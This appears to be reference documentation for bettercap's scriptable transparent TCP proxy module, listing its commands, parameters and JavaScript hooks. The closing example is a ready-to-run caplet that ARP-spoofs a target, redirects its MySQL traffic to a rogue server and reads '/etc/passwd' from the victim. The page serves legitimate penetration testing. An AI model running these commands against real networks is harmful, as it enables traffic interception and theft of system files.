 ```yaml
---
title: "tcp.proxy"
date: 2019-02-25T13:18:06+01:00
draft: false
weight: 3
---
```


A TCP transparent proxy that can be scripted using javascript modules. If used together with a [spoofer](/modules/ethernet/spoofers/), all TCP traffic to a given address and port will be redirected to it and it will automatically handle port redirections as needed.

The optional `tcp.tunnel` parameter can be used to redirect the traffic from `tcp.address` to `tcp.tunnel.address`.

### Commands

#### `tcp.proxy on`

Start the TCP proxy.

#### `tcp.proxy off`

Stop the TCP proxy.

### Parameters

| parameter | default | description |
|-----------|---------|-------------|
| `tcp.port` | `443` | TCP port to redirect when the proxy is activated. |
| `tcp.address` |  | **Mandatory** remote address of the TCP proxy. |
| `tcp.proxy.port` | `8443` | Port to bind the TCP proxy to. |
| `tcp.proxy.address` | `<interface address>` | Address to bind the TCP proxy to. |
| `tcp.proxy.script` | | Path of a proxy module script. |
| `tcp.tunnel.address` | | Address to redirect the TCP tunnel to (optional). |
| `tcp.tunnel.port` | | Port to redirect the TCP tunnel to (optional) |

### Modules

The `tcp.proxy` module can be scripted using javascript files that must declare at least one of the following functions:

```js
// called when the script is loaded
function onLoad() {

}

// called when data is available
// return an array of bytes to override "data"
function onData(from, to, data) {

}
```

Modules can change the `data` buffer and return it, signaling the proxy to override the original buffer.

### Builtin Functions

Modules can use the following builtin functions.

| function | description |
|----------|-------------|
| `readDir("/path/")` | Return the contents of a directory as a string array. |
| `readFile("/path/to/file")` | Return the contents of a file as a string. |
| `writeFile("/path/to/file", "hello world")` | Write the string `hello world` to a file, returns `null` or an error message. |
| `log_debug("message")` | Log a message in the interactive session (its level will be `DEBUG`). |
| `log_info("message")` | Log a message in the interactive session (its level will be `INFO`). |
| `log_warn("message")` | Log a message in the interactive session (its level will be `WARNING`). |
| `log_error("message")` | Log a message in the interactive session (its level will be `ERROR`). |
| `log_fatal("message")` | Log a message in the interactive session (its level will be `FATAL`). |
| `log("message")` | Shortcut for `log_info("message")`. |
| `btoa("message")` | Encode a message to base64. |
| `atob("bWVzc2FnZQ==")` | Decode a message from base64. |
| `env("iface.ipv4")` | Read a variable. |
| `env("foo", "bar")` | Set a variable. |

### Examples

The [rogue-mysql-server.cap](https://github.com/bettercap/caplets/blob/master/rogue-mysql-server.cap) executes an ARP spoofing attack against a single host and redirect the MySQL traffic to a [builtin rogue server](/modules/ethernet/servers/mysql.server/):

```sh
# set the target for arp spoofing
set arp.spoof.targets 192.168.1.236

# bind rogue mysql server to localhost and
# set the file we want to read
set mysql.server.address 127.0.0.1
set mysql.server.port 3306
set mysql.server.infile /etc/passwd
mysql.server on

# set the ip from the mysql server we want to impersonate
set tcp.address 93.184.216.34
set tcp.port 3306

# set the ip from the rogue mysql server
set tcp.tunnel.address 127.0.0.1
set tcp.tunnel.port 3306

# go ^_^
tcp.proxy on
arp.spoof on
```
